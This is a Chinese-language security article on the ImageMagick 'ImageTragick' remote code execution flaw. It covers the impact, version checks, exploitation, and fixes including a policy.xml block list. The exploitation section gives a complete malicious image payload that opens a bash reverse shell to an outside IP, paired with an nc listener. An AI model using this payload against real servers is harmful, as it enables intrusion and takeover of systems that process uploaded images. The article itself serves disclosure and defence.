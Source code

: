 ```yaml
---
description: 详细介绍ImageMagick的漏洞危害自测方法、利用方式EXP和修复方案。
---
```


# ImageMagick安全详解

Feei <feei#feei.cn>

## 0x01 漏洞危害 
ImageMagick是用来处理图片的通用组件，涉及众多语言与平台。 

- PHP(imagick/MagickWand) 
- Python(PythonMagick) 
- Java(JMagick) 
- Nodejs(imagemagick) 
- Ada(G2F) 
- C(MagickCore/MagickWand) 
- Ch(ChMagick) 
- C++(Magick++) 
- Lisp(L-Magick) 
- Neko/haXe(nMagick) 
- Pascal(PascalMagick) 
- Perl(PerlMagick) 
- Ruby(RMagick) 
- Tcl/TK(TclMagick) 

此次漏洞导致的直接危害为**远程代码执行（RCE）** 也就是说，如果你的业务中有用到ImageMagick处理图片，则攻击者只需要上传一个特殊构造的图片即可拿到你服务器的权限。 

## 0x02 检测方式 

**检查是否有使用**
一般ImageMagick用在处理图片的裁剪、压缩以及水印等地方。如果你网站有上传图片的地方，就极有可能用到了。

可以通过关键字搜索： 

PHP代码关键字：```Imagick``` 
Java代码关键字：```MagickImage``` 

#### 通过版本号确认是否存在 

**6.9.3-9**之前的版本都存在该漏洞(**6.9.3-9**版本不完全修复该漏洞)，建议升级至最新的**2016-05-09 7.0.1-3**。 
```bash 
$ convert --version 
Version: ImageMagick 6.8.3-7 2013-07-30 Q16 http://www.imagemagick.org 
Copyright: Copyright (C) 1999-2013 ImageMagick Studio LLC 
Features: DPC OpenMP Delegates: bzlib fontconfig freetype gslib jng jpeg pango png ps tiff x xml zlib 
```

#### 检测脚本 

```bash 
$ git clone https://github.com/ImageTragick/PoCs.git 
$ cd PoCs 
$ ./test.sh 
```

## 0x03 利用方式 

在自己服务器（此处演示为103.21.140.84）上开启监听端口7890 

```bash 
$ nc -vvl 7890 
```

将以下保存为test.jpg，上传到对应图片处理处。 

```bash
push graphic-context 
viewbox 0 0 640 480 
fill 'url(https://example.com/image.jpg"|bash -i >& /dev/tcp/103.21.140.84/7890 0>&1")' 
pop graphic-context 
```

在自己服务器（此处演示为103.21.140.84）上查看是否有反弹SHELL 

## 0x04 修复方式 

**升级ImageMagick至最新的[2016-05-09 7.0.1-3](http://www.imagemagick.org/script/binary-releases.php)版本。** 

如果无法快速升级，先临时做好以下两点： 
1. 处理图片前，先检查图片的magic bytes，也就是图片头，如果图片头不是你想要的格式，那么就不调用ImageMagick处理图片。如果你是php用户，可以使用getimagesize函数来检查图片格式，而如果你是wordpress等web应用的使用者，可以暂时卸载ImageMagick，使用php自带的gd库来处理图片。 

2. 使用policy file来防御这个漏洞，这个文件默认位置在 /etc/ImageMagick/policy.xml ，我们通过配置如下的xml来禁止解析https等敏感操作： 

```xml 
<policymap>  
  <policy domain="coder" rights="none" pattern="EPHEMERAL" />
  <policy domain="coder" rights="none" pattern="URL" />
  <policy domain="coder" rights="none" pattern="HTTPS" />
  <policy domain="coder" rights="none" pattern="MVG" />
  <policy domain="coder" rights="none" pattern="MSL" />
  <policy domain="coder" rights="none" pattern="TEXT" />
  <policy domain="coder" rights="none" pattern="SHOW" />
  <policy domain="coder" rights="none" pattern="WIN" />
  <policy domain="coder" rights="none" pattern="PLT" />
</policymap>
```

**参考**

- [ImageMagick Changelog](http://www.imagemagick.org/script/changelog.php) 
- [ImageTragick](https://imagetragick.com/)
- [PHP Imagick](http://pecl.php.net/package/imagick)

